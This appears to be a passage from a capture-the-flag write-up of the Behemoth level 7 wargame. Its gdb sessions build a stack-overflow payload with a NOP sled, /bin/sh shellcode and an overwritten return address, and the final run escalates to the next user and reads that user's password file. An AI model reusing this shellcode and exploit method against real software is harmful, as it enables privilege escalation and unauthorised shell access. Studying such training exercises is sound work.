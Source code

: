 All we need to do now is locate our small nopsled. We know that the address is going to be 0x90909041. So we can search for this pattern.

{% highlight bash %}
(gdb) run $(perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "AAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/behemoth/behemoth7 $(perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "AAAA"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) find $esp,$esp+1000,0x90909041
0xffffdfa7
1 pattern found.
{% endhighlight %}

Now we can't use that address directly due to the 41 that exist. So we simply increment the address by one which will give us the beginning of the nopsled. Making our new address 0xffffdfa8.

Our payload is now.

{% highlight bash %}
perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "\xa8\xdf\xff\xff"'
{% endhighlight %}

Now if everything goes as planned we should get a shell or at least /bin/sh being called.

{% highlight bash %}
(gdb) run $(perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "\xa8\xdf\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/behemoth/behemoth7 $(perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "\xa8\xdf\xff\xff"')
process 9559 is executing new program: /bin/dash
$ 
{% endhighlight %}

Now we just run it in userspace.

{% highlight bash %}
behemoth7@melinda:/tmp/bh7$ ./invoker.sh /behemoth/behemoth7 `perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "\xa8\xdf\xff\xff"'`
$ whoami
behemoth8
$ cat /etc/behemoth_pass/behemoth8
[OMITTED]

{% endhighlight %}

There is our password.